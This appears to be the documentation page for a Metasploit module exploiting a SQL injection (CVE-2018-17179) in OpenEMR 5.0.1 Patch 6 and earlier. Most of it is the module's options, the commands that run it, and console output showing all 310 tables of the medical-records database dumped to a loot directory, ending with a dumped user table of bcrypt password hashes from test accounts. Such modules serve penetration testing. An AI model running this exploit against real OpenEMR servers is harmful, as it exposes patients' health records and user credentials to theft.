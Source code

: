 ## Intro

This module exploits a SQLi vulnerability found in
OpenEMR version 5.0.1 Patch 6 and lower. The
vulnerability allows the contents of the entire
database (with exception of log and task tables) to be
extracted.

This module saves each table as a `.csv` file in your
loot directory and has been tested with
OpenEMR 5.0.1 (3).


## Author

Will Porter (will.porter@lodestonesecurity.com) from Lodestone Security


## References

https://www.cvedetails.com/cve/CVE-2018-17179/
https://github.com/openemr/openemr/commit/3e22d11c7175c1ebbf3d862545ce6fee18f70617


## Options

```
msf5 auxiliary(sqli/openemr/openemr_sqli_dump) > show options

Module options (auxiliary/sqli/openemr/openemr_sqli_dump):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target address range or CIDR identifier
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /openemr         yes       The base path to the OpenEMR installation
   VHOST                       no        HTTP server virtual host
```

## Usage

This module has both `check` and `run` functions.

```
msf5 > use auxiliary/sqli/openemr/openemr_sqli_dump
msf5 auxiliary(sqli/openemr/openemr_sqli_dump) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf5 auxiliary(sqli/openemr/openemr_sqli_dump) > check

[*] Trying to detect installed version
[*] 127.0.0.1:80 - The target appears to be vulnerable.
msf5 auxiliary(sqli/openemr/openemr_sqli_dump) > run
[*] Running module against 127.0.0.1

[*] DB Version: 10.3.15-MariaDB-1
[*] Enumerating Tables, this may take a moment...
[*] Identified 310 tables.
[*] Created dump directory: /root/.msf4/loot/openemr-a323pl20
[*] Dumping table (1/310): ALL_PLUGINS
[*] Dumping table (2/310): APPLICABLE_ROLES
[*] Dumping table (3/310): CHARACTER_SETS
[*] Dumping table (4/310): CHECK_CONSTRAINTS
[*] Dumping table (5/310): COLLATIONS

...

[*] Dumping table (305/310): medex_recalls
[*] Dumping table (306/310): syndromic_surveillance
[*] Dumping table (307/310): lang_constants
[*] Dumping table (308/310): gacl_acl_seq
[*] Dumping table (309/310): background_services
[*] Dumping table (310/310): geo_country_reference
[*] Dumped all tables to /root/.msf4/loot/openemr-a323pl20
[*] Auxiliary module execution completed
msf5 auxiliary(sqli/openemr/openemr_sqli_dump) > exit

root@localhost:/tmp# cd /root/.msf4/loot/openemr-a323pl20
root@localhost:~/.msf4/loot/openemr-a323pl20# cat users_secure.csv
id,username,password,salt,last_update,password_history1,salt_history1,password_history2,salt_history2
1,admin,$2a$05$bxcQWy1ZeIwV2/ScGBQlTOeUVqJo9MdvHuF1mBs4Jo7H0/bFpZoPK,$2a$05$bxcQWy1ZeIwV2/ScGBQlTZ$,2019-08-27 20:07:13,"","","",""
4,johndoemsf,$2a$05$gUWCtnsoqPBbn5zKiasyaOphgJwkA9BySy7LnK3BswyWt0RrLb0Ma,$2a$05$gUWCtnsoqPBbn5zKiasyaQ$,2019-08-29 02:01:28,"","","",""
6,johnderp,$2a$05$nAHQ7japfATDqqgArPImlu5svMG79W1nj1SNBpE7xkEhS42.AvlWq,$2a$05$nAHQ7japfATDqqgArPImlv$,2019-08-29 02:02:32,"","","",""
7,janedoemsf,$2a$05$uv85uBLeAOWQWWl9hHGL0uUy1KZSTgNGbZfJ9o8Lg0ILuSeGCNDbm,$2a$05$uv85uBLeAOWQWWl9hHGL06$,2019-08-29 02:09:37,"","","",""
```

